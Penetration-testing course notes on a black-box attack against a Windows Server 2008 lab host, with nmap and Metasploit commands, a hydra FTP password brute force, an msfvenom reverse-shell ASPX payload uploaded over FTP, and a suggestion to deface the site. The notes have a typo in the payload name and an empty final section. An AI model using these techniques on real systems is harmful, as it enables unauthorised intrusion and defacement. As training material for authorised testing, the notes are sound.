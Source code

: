 # 7 - Windows Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.

# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```
```
{% endcode %}



























